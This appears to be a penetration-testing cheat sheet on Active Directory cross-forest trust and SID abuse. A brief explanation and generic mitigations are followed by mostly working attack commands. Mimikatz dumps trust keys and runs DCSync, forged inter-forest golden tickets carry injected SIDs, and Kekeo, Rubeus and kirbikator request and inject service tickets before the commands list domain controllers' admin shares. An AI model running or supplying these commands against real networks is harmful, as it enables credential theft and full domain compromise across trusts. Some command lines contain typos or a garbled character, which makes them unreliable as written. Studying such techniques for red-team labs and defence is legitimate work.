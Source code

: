 # 🟢 SID Abuse

Cross-domain attacks involving forest root and SID (Security Identifier) abuse exploit vulnerabilities in trust relationships between different Active Directory forest domains.&#x20;

These attacks manipulate the trust keys and SIDs to forge authentication tokens, allowing unauthorized access to resources across domains.&#x20;

By abusing SID and trust relationships, attackers can potentially gain access to sensitive information, escalate privileges, and compromise the security of interconnected systems.&#x20;

This technique underscores the importance of robust security measures and vigilant monitoring of inter-forest trust relationships to protect against such sophisticated threats.

### Cross-Domain Attacks: Forest Root and SID Abuse

Cross-domain attacks targeting the forest root and SID (Security Identifier) exploit vulnerabilities present in the trust relationships between different Active Directory forest domains. These vulnerabilities are manipulated by attackers to forge authentication tokens, granting unauthorized access across domains.

#### **Key Steps in the Attack**

1. **Dump Trust Keys:** Extract the trust keys of inter-forest trusts to identify the SID of the current domain, SID of the target domain, and the `rc4_hmac_nt` (Trust Key) of the target domain (e.g., `ecorp$`).
2. **Forge TGT:** Utilize the extracted information to forge an inter-forest Ticket Granting Ticket (TGT) with the correct target and RC4 parameters.
3. **Request TGS:** With the forged TGT, request a Ticket Granting Service (TGS) ticket using `asktgs.exe`.
4. **Inject TGS into Memory:** Inject the obtained TGS into memory to bypass authentication mechanisms.
5. **Access Resources:** Gain access to all shared files and admin domain controllers (DCs) within the target domain.

#### **Risks and Implications**

* Access to sensitive information
* Privilege escalation
* Compromised security of interconnected systems

#### **Mitigation Strategies**

* Implement robust security measures
* Monitor inter-forest trust relationships vigilantly
* Regularly review and update trust keys and SIDs

Understanding and protecting against such sophisticated threats is crucial for the security of interconnected systems and to prevent unauthorized access to sensitive information.

### Practice

### Invoke-Mimikatz

#### 1. We require the trust key of inter-forest trust

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\techcorp$"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

#### 2. Forge the inter-forest TGT

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:us.techcorp.local /sid:S-1-5-21-210670787- 2521448726-163245708 /sids:S-1-5-21-2781415573- 3701854478-2406986946-519 /rc4:b59ef5860ce0aa12429f4f61c8e51979 /user:Administrator /service:krbtgt /target:techcorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi"'

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\AD\Tools\kekeo_old\sharedwitheu.kirbi"'
```

#### 3. Request a TGS

> Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket with Kekeo

```
# keko
tgs::ask /tgt:C:\AD\Tools\trust_tkt.kirbi /service:CIFS/techcorp-dc.techcorp.local
# Or using older version of Kekeo
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/techcorp-dc.techcorp.local
```

#### 4. Inject and use the TGS

> Use the TGS to access the targeted service (may need to use it twice)

```
misc::convert lsa TGS_Administrator@us.techcorp.local_krbtgt~TECHCORP.LOCAL@US.TECHCORP.LOCAL.kirbi 
# Or
.\kirbikator.exe lsa .\CIFS.techcorp-dc.techcorp.local.kirbi
ls \\techcorp-dc.techcorp.local\c$
```

### Rubeus

#### 1. Create ticket and add it into the memory using asktgs

```
# Rubeus
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/techcorp-dc.techcorp.local /dc:techcorp-dc.techcorp.local /ptt

C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt

# can access the shares now
ls \\techcorp-dc.techcorp.local\c$
ls \\euvendor-dc.euvendor.local\c$
```

### PowerShell

#### 1. Access the euvendor-net machine using PSRemoting

```
# cmdlet
Invoke-Command -ScriptBlock{whoami} -ComputerName euvendor�net.euvendor.local -Authentication NegotiateWithImplicitCredential
```

### Extras

#### To use the DCSync feature for getting krbtg hash execute the below command with DC privileges

```
Invoke-Mimikatz -Command '"lsadump::dcsyn /domain:garrison.castle.local /all /cvs"'
```

#### Get the ForeignSecurityPrincipal

```
#These SIDs can access to the target domain
Get-DomainObject -Domain targetDomain.local | ? {$_.objectclass -match "foreignSecurityPrincipal"}

#With the by default SIDs, we find S-1-5-21-493355955-4215530352-779396340-1104
#We search it in our current domain
Get-DomainObject |? {$_.objectsid -match "S-1-5-21-493355955-4215530352-779396340-1104"}
```
